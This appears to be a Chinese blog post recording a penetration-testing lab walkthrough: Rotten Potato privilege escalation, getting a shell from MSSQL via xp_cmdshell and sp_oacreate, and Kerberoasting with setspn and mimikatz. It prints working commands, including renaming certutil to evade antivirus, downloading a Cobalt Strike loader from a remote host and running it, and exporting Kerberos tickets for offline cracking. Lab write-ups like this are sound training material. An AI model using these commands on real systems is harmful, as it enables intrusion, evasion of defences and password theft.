

暗月ack靶场学习记录
最近打了一套新的靶场——暗月ack,学到了很多新东西,特此记录
烂土豆（RottenPotato）
烂土豆（Rotten Potato） MS16-075 是一种利用 Windows 客户端操作系统中 NT AUTHORITY\SYSTEM 权限漏洞的攻击方法,可以实现本地提权,对应的补丁号为KB3164038
适用版本：Windows 7、8、10、2008、2012
当攻击者转发适用于在同一计算机上运行的其他服务的身份验证请求时,Microsoft 服务器消息块 (SMB) 中存在特权提升漏洞。成功利用此漏洞的攻击者可以使用提升的特权执行任意代码
若要利用此漏洞,攻击者首先必须登录系统。然后,攻击者可以运行一个为利用此漏洞而经特殊设计的应用程序,从而控制受影响的系统,可见,该漏洞的利用方式还是比较简单的
首先在拥有一个登录用户的情况下输入whoami /prive查看当前用户的权限
如果发现有SeAssignPrimaryTokenPrivilege权限或者SeImpersonatePrivilege 权限并且系统未打对应的补丁则可以成功利用烂土豆提权
MSSQL拿shell
拿到sql server的sa账户以后可以通过xp_cmdshell来执行系统命令
先判断xp_shell是否存在
1 | select count(*) from master.dbo.sysobjects where xtype='X' and name='xp_cmdshell'; |
如果显示0则可以通过以下命令重新加载
1 | dbcc addextendedproc("xp_cmdshell","xplog70.dll"); |
执行命令方法为：
1 | EXEC master..xp_cmdshell 'whoami'; |
在命令执行之后下一步的目标就是拿shell,这里采用的方法是利用windows自带的certutil下载shellcode加载器
但是使用xp_cmdshell去调用certutil会发现被火绒拦截了,所以我们需要使用sp_oacreate来执行命令
xp_cmdshell和sp_oacreate都是 SQL Server 中用于执行操作系统命令的工具,但是它们之间存在一些差异
xp_cmdshell是在 SQL Server 上直接调用 Windows 的cmd.exe执行指定的命令,因此容易被杀毒软件和防火墙拦截。当执行xp_cmdshell命令时,如果杀毒软件或防火墙检测到其中包含有潜在的安全威胁,则可能会立即阻止该命令的执行相比之下,
sp_oacreate是使用 SQL Server 的 COM (组件对象模型) 接口创建一个外部对象,并通过该对象调用操作系统命令,因此在某种程度上可以绕过杀毒软件或防火墙的检测。但是,由于它需要使用 COM 对象,而且需要启用Ole Automation Procedures选项才能使用,因此在某些情况下可能不太方便使用
sp_oacreate可以删除、复制、移动文件,还能配合sp_oamethod来写文件执行cmd,但是sp_oamethod无回显
首先要开启sp_oacreate
1 | EXEC sp_configure 'show advanced options',1; |
将 certutil.exe 复制到 C:\Windows\Temp\ 下,并重命名为 sethc.exe
1 | declare @o int; exec sp_oacreate 'scripting.filesystemobject', @o out exec sp_oamethod @o, 'copyfile',null,'C:\Windows\System32\certutil.exe' ,'c:\windows\temp\sethc.exe'; |
生成cobalt strike 的shellcode加载器
1 |
|
利用Visual Studio编译生成load.exe
certutil 工具远程下载 loader.exe
1 | declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\Windows\Temp\sethc.exe -urlcache -split -f "http://192.168.59.1/loader.exe" C:\Windows\Temp\loader.exe' |
xp_cmdshell 执行命令加载 shellcode
1 | EXEC master..xp_cmdshell 'C:\Windows\Temp\loader.exe shellcode二进制木马‘ |
kerberosting
Kerberoast 是一种针对 Kerberos 身份验证协议的攻击技术,用于从域控制器获取受保护的服务账户（Service Account）密码哈希值并进行破解
流程如下：

攻击者拿到ST用于本地离线爆破,如果字典足够强大则可以爆破出SPN链接用户的明文密码
这个过程中,客户端在请求ST的时候是可以协商所使用的加密算法,只有使用的是RC4加密才有可能被爆破出来
kerberosting一般只攻击注册下用户下的SPN,而机器账户的密码是随机生成的128位字符,不太可能爆破出来
首先查询某个域中的SPN信息
1 | setspn -T ack123.com -q */* |
- setspn：setspn 是一个 Windows 命令行工具,用于管理和操作 Active Directory 中的 SPN 信息
- -T ack123.com：指定要查询的域或计算机名称,例如 ack123.com 表示查询该域中的 SPN 信息
- -q：指定要执行的操作类型,这里表示查询 SPN 信息。
- /：指定要查询的所有 SPN 类型和名称,包括服务类别和实例名称。其中 * 表示通配符,表示任意字符或字符串
SPN命令格式:SPN = serviceclass "/" hostname [":"port] ["/" servicename]
在web2中可以看到Administrator注册了一个mysql的SPN

接下来使用mimikatz请求SPN的ST
1 | mimikatz kerberos::ask /target:mysql/16server-dc1.ack123.com |
导出当前票据
1 | mimikatz kerberos::list /export |
利用kerberoast.exe爆破即可成功获取Administrator的密码明文
参考：